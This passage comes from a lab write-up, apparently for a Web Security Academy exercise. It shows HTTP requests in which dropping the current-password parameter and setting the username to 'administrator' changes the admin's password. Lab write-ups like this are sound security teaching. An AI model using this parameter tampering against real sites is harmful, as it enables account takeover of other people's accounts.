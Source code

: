 **Response**
```html
.
.
<header class="notification-header">
</header>
<h1>
	My Account
</h1>
<p class=is-warning>
	Current password is incorrect
</p>
<div id=account-content>
.
.
```

If we remove the `current password` completely they accept the request and change our password.

**Request**
```
POST /my-account/change-password HTTP/2
Host: 0a4f00f7031e4eec80ca3aa800cc0009.web-security-academy.net
Cookie: session=Q59XR716BAzndFSKs4ZCBG2YlM1m0JCj
Content-Length: 95
Origin: https://0a4f00f7031e4eec80ca3aa800cc0009.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.121 Safari/537.36

csrf=jEV9rLFT2Whe6Gdv5xysswtviT67aIif&username=wiener&new-password-1=peter&new-password-2=peter
```

**Response**
```
.
.
<header class="notification-header">
</header>
<p>
	Password changed successfully!
</p>
.
.
```

Knowing this we can change the `Username` parameter value to `administrator` and remove the `current-passowrd` parameter completely to change the administrator password.

**Request**
```
POST /my-account/change-password HTTP/2
Host: 0a4f00f7031e4eec80ca3aa800cc0009.web-security-academy.net
Cookie: session=Q59XR716BAzndFSKs4ZCBG2YlM1m0JCj
Content-Length: 102
Origin: https://0a4f00f7031e4eec80ca3aa800cc0009.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.121 Safari/537.36

csrf=jEV9rLFT2Whe6Gdv5xysswtviT67aIif&username=administrator&new-password-1=peter&new-password-2=peter
```
